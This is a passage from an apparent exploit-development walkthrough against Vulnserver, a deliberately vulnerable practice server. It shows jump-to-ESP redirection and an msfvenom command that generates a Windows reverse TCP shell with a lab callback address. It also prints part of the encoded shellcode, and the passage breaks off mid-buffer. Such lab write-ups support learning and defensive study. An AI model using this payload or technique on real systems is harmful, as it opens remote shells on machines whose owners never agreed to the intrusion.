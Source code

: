 After crashing the program, we can see that we have jumped into ESP and ran our junk data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/jump-reg.png" style="width:40%">
</div>

So, we have successfully redirected our program flow

Next we have to point it with our shellcode

## Generating Shellcode

Shellcode is a piece of code performs specific action, which is typically written to directly manipulate processor registers to set them up for various system calls made with opcodes

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xda\xd2\xbe\x39\xe1\xbc\xa2\xd9\x74\x24\xf4\x5d\x2b"
buf += b"\xc9\xb1\x52\x31\x75\x17\x83\xed\xfc\x03\x4c\xf2\x5e"
buf += b"\x57\x52\x1c\x1c\x98\xaa\xdd\x41\x10\x4f\xec\x41\x46"
buf += b"\x04\x5f\x72\x0c\x48\x6c\xf9\x40\x78\xe7\x8f\x4c\x8f"
buf += b"\x40\x25\xab\xbe\x51\x16\x8f\xa1\xd1\x65\xdc\x01\xeb"
buf += b"\xa5\x11\x40\x2c\xdb\xd8\x10\xe5\x97\x4f\x84\x82\xe2"
buf += b"\x53\x2f\xd8\xe3\xd3\xcc\xa9\x02\xf5\x43\xa1\x5c\xd5"
buf += b"\x62\x66\xd5\x5c\x7c\x6b\xd0\x17\xf7\x5f\xae\xa9\xd1"
buf += b"\x91\x4f\x05\x1c\x1e\xa2\x57\x59\x99\x5d\x22\x93\xd9"
buf += b"\xe0\x35\x60\xa3\x3e\xb3\x72\x03\xb4\x63\x5e\xb5\x19"
```